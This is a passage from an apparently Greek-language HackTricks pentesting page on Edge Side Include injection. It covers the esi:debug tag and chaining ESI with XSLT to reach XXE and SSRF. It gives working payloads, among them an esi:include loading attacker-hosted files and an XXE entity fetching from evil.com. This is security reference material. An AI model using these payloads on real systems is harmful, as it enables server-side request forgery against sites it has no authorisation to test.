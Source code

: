 Αυτό θα στείλει πληροφορίες αποσφαλμάτωσης που περιλαμβάνονται στην απόκριση:
```xml
<esi:debug/>
```
### ESI + XSLT = XXE

Με την καθορισμένη τιμή `xslt` για την παράμετρο _dca_, είναι εφικτή η συμπερίληψη **`eXtensible Stylesheet Language Transformations (XSLT)`** βασισμένου ESI. Η συμπερίληψη προκαλεί τον HTTP surrogate να ανακτήσει τα αρχεία XML και XSLT, με το τελευταίο να φιλτράρει το πρώτο. Τέτοια αρχεία XML είναι εκμεταλλεύσιμα για επιθέσεις _XML External Entity (XXE)_, επιτρέποντας στους επιτιθέμενους να εκτελέσουν επιθέσεις SSRF. Ωστόσο, η χρησιμότητα αυτής της προσέγγισης είναι περιορισμένη, αφού οι ESI συμπεριλήψεις ήδη λειτουργούν ως διανύσματα SSRF. Λόγω της έλλειψης υποστήριξης στην υποκείμενη βιβλιοθήκη Xalan, τα εξωτερικά DTD δεν επεξεργάζονται, εμποδίζοντας την εξαγωγή τοπικών αρχείων.
```xml
<esi:include src="http://host/poc.xml" dca="xslt" stylesheet="http://host/poc.xsl" />
```
Αρχείο XSLT:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE xxe [<!ENTITY xxe SYSTEM "http://evil.com/file" >]>
<foo>&xxe;</foo>
```
Ελέγξτε τη σελίδα XSLT:

{% content-ref url="xslt-server-side-injection-extensible-stylesheet-language-transformations.md" %}
[xslt-server-side-injection-extensible-stylesheet-language-transformations.md](xslt-server-side-injection-extensible-stylesheet-language-transformations.md)
{% endcontent-ref %}

### Αναφορές

* [https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/)
* [https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/](https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/)
* [https://academy.hackthebox.com/module/145/section/1304](https://academy.hackthebox.com/module/145/section/1304)
* [https://infosecwriteups.com/exploring-the-world-of-esi-injection-b86234e66f91](https://infosecwriteups.com/exploring-the-world-of-esi-injection-b86234e66f91)

## Λίστα Ανίχνευσης Βίαιης Δύναμης

{% embed url="https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/ssi_esi.txt" %}

<details><summary><strong>Μάθετε το χάκινγκ του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
